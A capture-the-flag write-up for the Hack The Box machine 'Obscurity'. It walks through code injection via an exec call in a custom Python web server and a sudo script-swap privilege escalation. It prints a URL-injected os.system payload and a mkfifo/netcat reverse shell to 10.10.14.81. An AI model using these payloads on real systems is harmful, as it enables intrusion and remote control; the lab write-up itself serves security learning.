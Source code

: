 ```yaml
---
title: 'Obscurity HTB'
date: '2020-05-09 20:00:00'
author: fuxsocy
description: Obscurity By Fuxsocy
image: 
    path: '/images/obscurity.png'
categories: ["htb"]
---
```


## User



From Nmap ports 22,80 and 8080 are open. port 80 does nothing. port 8080 is a web server, and is a custom webserver.
At the home page of the website there is a message which says  
```Message to server devs: the current source code for the web server is in 'SuperSecyreServer.py' in the secret development directory.```

I run wfuzz to find the *dir* only because I already know the filename.

```
wfuzz -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

I find the file located at /develop/

After reading the code I found an rce on these lines of the code.
```
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
```

The path gets inside the exec function. So If I send inside the path something like `/';os.system("ping IP");'` given that the os library is already imported by the script I get code execution? Let's try to send that but encoded.

I use `https://www.urlencoder.org/` and encode this command `';os.system("ping 10.10.14.81");'` and on my box I listen for any ping request using  
`tcpdump -i tun0 -n icmp `

I immediately get a request back.
```
root@kali:~/Downloads# tcpdump -i tun0 -n icmp  
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:24:49.507887 IP 10.10.14.81 > 10.10.10.168: ICMP echo request, id 9799, seq 106, length 64
```

I get a reverse shell, inside /home/robert folder I find a python script which encrypts and decrypts files and some files. I type this command and get a password. `python3 SuperSecureCrypt.py -i out.txt -o /tmp/d.txt -k "$(cat check.txt)" -d` the password is `alexandrovich`, now I decrypt the passwordreminder with this password. the command is  `python3 SuperSecureCrypt.py -i passwordreminder.txt -o /tmp/a.txt -k "alexandrovich" -d`
```
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/a.txt...
www-data@obscure:/home/robert$ cat /tmp/a.txt 
SecThruObsFTW
```
I use this password to ssh into the box, as robert user.

# Root

After a bit of enumerating inside the box, I finally find that I can run this python script as root.   
```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
robert@obscure:~$ 

```
I can rename that folder to something else and then create the folder with the same name and the python script with the same name, and then execute the command to get a reverse shell.


```
robert@obscure:~$ cd BetterSSH/
robert@obscure:~/BetterSSH$ ls -la
total 12
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 .
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 ..
-rwxr-xr-x 1 root   root   1805 Oct  5 13:09 BetterSSH.py
robert@obscure:~/BetterSSH$ cd ..
robert@obscure:~$ mv BetterSSH/ a
robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ cd BetterSSH/
robert@obscure:~/BetterSSH$ touch BetterSSH.py
robert@obscure:~/BetterSSH$ vim BetterSSH.py
robert@obscure:~/BetterSSH$ cat BetterSSH.py 
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 7979 >/tmp/f")
robert@obscure:~/BetterSSH$ sudo -u root /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
